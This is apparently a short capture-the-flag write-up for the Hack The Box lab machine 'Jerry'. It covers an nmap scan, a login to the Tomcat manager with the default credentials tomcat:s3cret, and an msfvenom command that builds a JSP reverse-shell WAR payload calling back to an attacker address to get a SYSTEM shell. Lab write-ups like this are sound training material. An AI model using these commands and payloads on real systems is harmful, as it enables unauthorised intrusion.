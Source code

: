 Jerry without metasploit

![Jerry](https://user-images.githubusercontent.com/55708909/91583665-2a631680-e96f-11ea-8965-2fd133a841ef.png)


Starting with nmap scan:

Nmap -sC -sV -T4 -A -O -oA Jerry -p- 10.10.10.95

![Jerry_nmap](https://user-images.githubusercontent.com/55708909/91584745-bf1a4400-e970-11ea-87cb-a6670ddf4346.png)

As we have only one port to enumerate i will roger that 
.
Port 8080 seems to have directory manager/html

it will ask for credentials first cut the login panel and there you will fing login credentials and after that loging in with credentials tomcat:s3cret

![Jerry_login](https://user-images.githubusercontent.com/55708909/91584367-284d8780-e970-11ea-8c08-f8103b9584a2.png)

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f war > shell.war

Then execute the payload by clicking on file and we have a shell here.

![Jerry_shell](https://user-images.githubusercontent.com/55708909/91585001-19b3a000-e971-11ea-96ae-a6b1da85532a.png)

Your authority will be that of system

![Jerry_root](https://user-images.githubusercontent.com/55708909/91585250-6d25ee00-e971-11ea-990e-d73979373e00.png)





